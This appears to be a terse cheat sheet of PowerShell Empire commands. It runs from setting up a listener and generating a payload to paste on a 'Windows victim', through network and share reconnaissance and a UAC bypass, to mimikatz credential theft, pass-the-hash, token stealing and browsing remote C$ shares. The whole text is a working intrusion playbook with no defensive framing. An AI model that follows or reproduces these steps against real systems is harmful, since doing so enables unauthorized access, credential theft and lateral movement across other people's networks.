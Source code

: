 #Create listener and generate Base64 cmd payload
sudo ./empire
liste­ners
set Name listen­ername
execute
usestager launcher listen­ername
execute (generate payload, copy & paste into cmd on Windows victim)
agents

#Post Exploi­tation
agents
interact AGENTNAME
sysinfo
usemodule situat­ion­al_­awa­ren­ess­/ne­two­rk/­arp­scan
set Range 10.0.0.0-­10.0.0.255
execute
...
usemodule situat­ion­al_­awa­ren­ess­/ne­two­rk/­rev­ers­e_dns
set Range 10.0.0.0-­10.0.0.255
execute
...
usemodule situat­ion­al_­awa­ren­ess­/ne­two­rk/­pow­erv­iew­/us­er_­hunter
execute
...
usemodule situat­ion­al_­awa­ren­ess­/ne­two­rk/­pow­erv­iew­/sh­are­_fi­nder
set CheckS­har­eAccess True
execute
...
agents
interact AGENTNAME
bypassuac LISTEN­ERNAME
y
...wait for agent now active to appear...
agents (look for a user with * as this indicates admin)
interact AGENTNAME
mimikatz (collect creds, etc...)
creds
dir \\COMP­UTE­RNA­ME\C$
creds
pth 1 (passt­hehash using cred 1, a PID will be created)
steal­_token PIDNUM
dir \\COMP­UTE­RNA­ME\C$